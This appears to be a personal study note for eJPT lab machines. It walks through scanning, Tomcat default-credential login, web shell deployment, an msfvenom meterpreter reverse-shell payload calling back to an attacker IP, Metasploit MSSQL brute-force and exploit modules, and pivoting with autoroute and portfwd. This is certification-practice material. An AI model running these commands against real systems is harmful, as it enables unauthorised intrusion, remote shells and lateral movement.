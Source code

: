 ## eJPT 🛠

### The Black Box Walkthrough's : Box 1

#### Machine 1
- fping -a -g network id with mask 2>/dev/null
- naabu -p - ip address
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- tomcat Enumeration http:ip:port/manager/html  ->   [tomcat:s3cret]
- Which helps you to upload a .war file and deploy it on the web-server [jsp web shell]
- https://github.com/BustedSec/webshell/blob/master/webshell.war
- This will lead to RCE, confirimg the base os is linux
- Creating a meterpreter payload and listen using metasploit
-  msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.16.64.10 LPORT=3211 -f elf > meter.elf
-  rename .elf to .war upload it, delpoy and this file can be relocated at /var/lib/tomcat8/webapps
-  mv /var/lib/tomcat8/webapps/meter.war /tmp/meter ls /tmp/meter chmod +x /tmp/meter
-  reverse shell at meterpreter listener

#### Machine 2
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- webserver on port 80
- dirb -u dirb http://172.16.64.140/  -> discovery a directory project, which requires uname and pass [rnadom pass admin:admin [correct]]
- dirb http://172.16.64.140/project/ -u admin:admin   [for further directory enum]
- revealed the flag path and DB credentials for next machine [fooadmin:fooadmin]
#### Machine 3
- Metasploit is ur bestie
- Search metasploit for sql version for scanners or exploits
- use auxiliary/scanner/mssql/mssql_login  [login check/bruteforce]
- use auxiliary/admin/mssql/mssql_enum     [enumeration]
- use exploit/windows/mssql/mssql_payload  [exploit]
- Gives us a meterpreter session

### The Black Box Walkthrough's : Remastered 1
#### Machine 1
- Enumeration reveals it's using V-CMS 1.0
- Search Metasploit, there will be an open exploit
- use exploit/linux/http/vcms_upload
- As mentioned it the question, the vcms server is connected to some other webserver on some other network

#### Machine 2
- cat /etc/hosts will reveal the other web server info/ or ifconfig will also gives info about the other network
- But, still we wont be able to ping the other network subnet
- run autoroute -s 192.69.228.0 -n 255.255.255.0 -> this adds route automatically to the meterprrter session
- route add 192.69.228.0 255.255.255.0 1  -> you can also use this where "1" is the meterpreter session id
- use auxiliary/scanner/portscan/tcp
- set PORTS 80, 8080, 445, 21, 22
- set RHOSTS 192.69.228.3-10
- exploit
- This will do a portscan on the remote network and reveals the open ports
- Then we need to portforward our local port to the remote port do a nmap scan
- portfwd add -l 1234 -p 21 -r 192.69.228.3  -> l [local port] p [parayvalla port] r [remote Ip]
- portfwd add -L <attacker machine IP> -l listening_port -p 80 -r <victim machine IP>
- nmap -sS -sV -p 1234 localhost
- This reveals a ftp service and version, using metasploit, we can find a inbuilt exploit, then boo tada


















